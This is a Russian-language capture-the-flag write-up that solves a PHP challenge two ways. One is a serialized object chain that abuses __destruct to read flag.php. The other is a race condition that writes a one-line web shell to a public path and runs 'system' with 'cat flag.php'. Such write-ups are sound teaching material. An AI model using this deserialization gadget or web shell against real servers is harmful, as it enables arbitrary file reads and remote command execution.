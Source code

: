 ﻿На видео: [2:53:38](https://vk.com/video-114366489_456239197?t=2h53m38s)

Два пути решения:

1) Собрать читалку файлов на unserialize:

```php
<?php

include './index.php';

$cart = new Cart('lolkek');
$item = new Item('flag.php',150);
$cart->addItem($item);
$user = new User("asdasdsad", "sadasdas", "adfsdafsd", "asdsada", $cart);
unserialize(serialize($user));

echo urlencode(serialize($user));
```

Как работает:
При десериализации объекта класса вызывается "магический" метод `__destruct`
1) При вызове `__destruct` юзера происходит удаление корзины (`$this->cart->delete()`)
2) При удалении корзины вызывается `$item->show()` для каждого айтема в корзине
3) `$item->show()` показывает содержимое файла, название которого в поле `info` (`echo file_get_contents($this->info)`)

Далее логика следующая, создаем объект `Cart`, создаем объект `Item` с `flag.php` (известно из исходников) в `info`, кладем айтем в корзину и создаем юзера с этой корзиной. Сериализуем объект и видим на страничке флаг.

Забавный факт: без просмотра html кода страницы в браузере флаг не покажется, т.к. <?php будет воспринят как валидный тег.

2) Race condition

При создании пользователя вызывается `file_put_contents()`, куда мы можем передать произвольный путь и произвольные данные. Путь корня web сервера можем узнать затриггерив ошибку с помощью невалидного пэйлоада на ансериалайз.

Схема эксплуатации:

```
<?php

include './index.php';
$user = new User("../public/race.php", "sadasdas", "<?=$_GET[a]($_GET[b]);?>", "asdsada", "asdasdasd");
echo urlencode(serialize($user));
```
Далее используем либо Burp Suite с интрудером в побольше потоков, либо пишем скрипт на удобном языке, который в несколько потоков дропает этот пейлоад в таск и дергает `race.php?a=system&b=cat%20flag.php`

Рано или поздно повезет, скрипт выиграет гонку и выведет флаг
